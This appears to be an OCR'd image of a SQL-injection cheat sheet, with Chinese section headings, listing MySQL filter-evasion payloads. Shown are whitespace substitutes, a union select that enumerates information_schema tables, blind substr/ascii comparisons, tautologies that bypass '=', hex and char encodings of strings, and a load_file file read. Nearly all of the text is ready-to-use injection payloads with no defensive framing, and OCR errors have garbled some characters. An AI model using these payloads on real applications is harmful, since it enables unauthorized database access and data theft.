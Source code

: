 ```
#空格
%20 %09 %0a %0b %0c %0d %a0 /**/
'or+(1)sounds/**/like"1"–%a0-
'union(select(1),tabe_name,(3)from`information_schema`.`tables`)#

#有引号的字符串
SELECT 'a'
SELECT "a"
SELECT n'a'
SELECT b'1100001′
SELECT _binary'1100001′
SELECT x'61′

#没有引号的字符串
　'abc' = 0×616263
　　' and substr(data,1,1) = 'a'#
　　' and substr(data,1,1) = 0x61 # 0x6162
　　' and substr(data,1,1) = unhex(61)    # unhex(6162)
　　' and substr(data,1,1) = char(97  )# char(97,98)
　　' and substr(data,1,1) = 'a'#
　　' and hex(substr(data,1,1)) = 61#
　　' and ascii(substr(data,1,1)) = 97#
　　' and ord(substr(data,1,1)) = 97# 
　　' and substr(data,1,1) = lower(conv(10,10,36))# 'a'

#别名
select pass as alias from users
select pass`alias alias`from users

#字型
' or true = '1 # or 1=1
' or round(pi(),1)+true+true = version() # or 3.1+1+1 = 5.1
' or '1 # or true
#操作符字型
select * from users where 'a'='b'='c'
select * from users where ('a'='b')='c'
select * from users where (false)='c'

#认真绕过'='
select * from users where name = "="
select * from users where false = "
select * from users where 0 = 0
select * from users where true#函数过滤器ascii (97)
load_file/*foo*/(0×616263)

#用函数构建字符串
'abc' = unhex(616263)
'abc' = char(97,98,99)
 hex('a') = 61
 ascii('a') = 97
 ord('a') = 97
'ABC' = concat(conv(10,10,36),conv(11,10,36),conv(12,10,36))

#特殊字符
　　aes_encrypt(1,12) // 4鏷眥"^z譎é蒃a
　　des_encrypt(1,2) // 侴Ò/镏k
　　@@ft_boolean_syntax // + -><()~*:""&|
　　@@date_format // %Y-%m-%d
　　@@innodb_log_group_home_dir // .\

@@new: 0
@@log_bin: 1
#提取子字符串substr('abc',1,1) = 'a'
```